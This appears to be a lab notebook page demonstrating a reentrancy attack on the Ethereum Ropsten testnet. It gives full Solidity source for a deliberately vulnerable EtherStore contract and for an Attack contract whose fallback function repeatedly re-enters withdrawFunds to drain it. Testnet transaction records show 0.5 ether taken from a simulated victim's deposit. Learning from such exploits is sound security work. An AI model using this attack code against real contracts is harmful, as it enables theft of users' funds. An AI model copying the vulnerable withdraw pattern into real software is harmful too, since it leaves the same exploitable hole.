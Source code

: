 # Example - EtherStore.sol

## EtherStore.Sol

pragma solidity 0.4.18;

contract EtherStore {

    uint256 public withdrawalLimit = 0.1 ether;  
    mapping\(address =&gt; uint256\) public lastWithdrawTime;  
    mapping\(address =&gt; uint256\) public balances;

    function depositFunds\(\) public payable {  
        balances\[msg.sender\] += msg.value;  
    }

    function withdrawFunds \(uint256 \_weiToWithdraw\) public {  
        require\(balances\[msg.sender\] &gt;= \_weiToWithdraw\);  
        // limit the withdrawal  
        require\(\_weiToWithdraw &lt;= withdrawalLimit\);  
        // limit the time allowed to withdraw  
        require\(now &gt;= lastWithdrawTime\[msg.sender\] + 1 weeks\);  
        require\(msg.sender.call.value\(\_weiToWithdraw\)\(\)\);  
        balances\[msg.sender\] -= \_weiToWithdraw;  
        lastWithdrawTime\[msg.sender\] = now;  
    }  
 }

Note: `withdrawLimit` set to 0.1 ether.

Deployed on Ropsten:  
[https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39](https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39)

From \(Metamask\):  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To \(contract\):  
`0x52b2a43b59a39f4c863aa86da6c6fe73b33bdc73`

## Attack.sol

pragma solidity 0.4.18;

contract EtherStore {

        function depositFunds\(\) public payable {}

        function withdrawFunds\(uint256\) public {}

    }

contract Attack {  
    //EtherStore public etherStore;  
    EtherStore public etherStore;

        function Attack\(address \_t\) public {  
        etherStore = EtherStore\(\_t\);  
    }

  function attackEtherStore\(\) public payable {  
      // attack to the nearest ether  
      require\(msg.value &gt;= 0.1 ether\);  
      // send eth to the depositFunds\(\) function  
      etherStore.depositFunds.value\(0.1 ether\)\(\);  
      // start the magic  
      etherStore.withdrawFunds\(0.1 ether\);  
  }

  function collectEther\(\) public {  
      msg.sender.transfer\(this.balance\);  
  }

  // fallback function - where the magic happens  
  function \(\) payable {  
      if \(etherStore.balance &gt; 0.1 ether\) {  
          etherStore.withdrawFunds\(0.1 ether\);  
      }  
  }  
}

[https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f](https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f)  
From:  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To:  
`0x733146fa7f8b40f4c97d946efeb7bdc9ff69ba6e`

Deposit some Eth from Metamask \(pretend this is some other user/victim\) to EtherStore \(to steal later\):  
[https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6](https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6)  
[![images/23-1.png](../../.gitbook/assets/23-1.png)](example-etherstore.sol.md)

I can now check the balance of my Metamask account by calling the `balances` mapping:

[![images/23-2.png](../../.gitbook/assets/23-2.png)](example-etherstore.sol.md)

Send 0.1 eth from the Attack.sol contract so that it has some balance to call `withdrawFunds()` later.

The following transaction sends 0.1 eth to Attack.sol's payable attackEtherStore\(\) function which will in turn deposit and subsequently withdraw funds from EtherStore.sol

From:  
`0x109Bb3673f445D8b0d2b04436D7b4a630B873B81`  
To:  
`0x733146Fa7F8B40f4c97d946EfEb7bdc9ff69BA6E`  
Tx:  
[https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a](https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a)

[![images/23-3.png](../../.gitbook/assets/23-3.png)](example-etherstore.sol.md)

Once executed, we can see the current balance is 0.1 eth, even though 0.5 was sent

[![images/23-4.png](../../.gitbook/assets/23-4.png)](example-etherstore.sol.md)

Because 5 ether were actually sent

Notice that the first Tx in the followig image shows 0.1 ether being sent from the Attack.sol address to EtherStore.sol, followed by 5 outgoing transacions from the EtherStore.sol to Attack.Sol contract. Now Attack.sol has 0.5 eth!!!

[![images/23-5.png](../../.gitbook/assets/23-5.png)](example-etherstore.sol.md)

Also the Attack.sol contract has a massive balance on EtherStore, not sure why:

[![images/23-6.png](../../.gitbook/assets/23-6.png)](example-etherstore.sol.md)

Calling CollectEther\(\) Sends those 0.5 eth back to our wallet address!

[https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93](https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93)  
[![images/23-7.png](../../.gitbook/assets/23-7.png)](example-etherstore.sol.md)

This becomes clearer is we export the internal transactions to csv:

[![images/23-8.png](../../.gitbook/assets/23-8.png)](example-etherstore.sol.md)

